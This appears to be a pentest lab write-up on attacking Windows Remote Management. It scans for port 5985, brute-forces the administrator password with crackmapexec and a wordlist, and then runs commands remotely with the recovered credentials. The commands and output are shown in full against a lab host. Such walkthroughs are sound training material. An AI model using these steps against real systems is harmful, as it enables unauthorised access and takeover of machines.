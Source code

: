 # Exploiting WinRM

WinRM typically runs on port 5985 or 5986.

```sh
root@attackdefense:~# nmap 10.5.28.237 -p5000-6000
Starting Nmap 7.70 ( https://nmap.org ) at 2023-12-31 13:47 IST
Nmap scan report for 10.5.28.237
Host is up (0.0019s latency).
Not shown: 1000 closed ports
PORT     STATE SERVICE
5985/tcp open  wsman
```

Here we can see it open.

To connect to WinRM we can use a tool called crackmapexec:

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# crackmapexec winrm 10.5.28.237 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 
WINRM       10.5.28.237     5985   NONE             [-] None\administrator:hello "Failed to authenticate the user administrator with ntlm"
WINRM       10.5.28.237     5985   NONE             [-] None\administrator:elizabeth "Failed to authenticate the user administrator with ntlm"
WINRM       10.5.28.237     5985   NONE             [-] None\administrator:hottie "Failed to authenticate the user administrator with ntlm"
<strong>WINRM       10.5.28.237     5985   NONE             [+] None\administrator:tinkerbell (Pwn3d!)
</strong></code></pre>

Now as we got winrm credentials, we can use crackmapexec again to execute arbitrary command:

```sh
root@attackdefense:~# crackmapexec winrm 10.5.28.237 -u administrator -p tinkerbell -x "whoami"                                            
WINRM       10.5.28.237     5985   NONE             [*] http://10.5.28.237:5985/wsman
WINRM       10.5.28.237     5985   NONE             [+] None\administrator:tinkerbell (Pwn3d!)
WINRM       10.5.28.237     5985   NONE             [+] Executed command
WINRM       10.5.28.237     5985   NONE             server\administrator
```

To get the command line session we can use another tool named evil-winrm

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

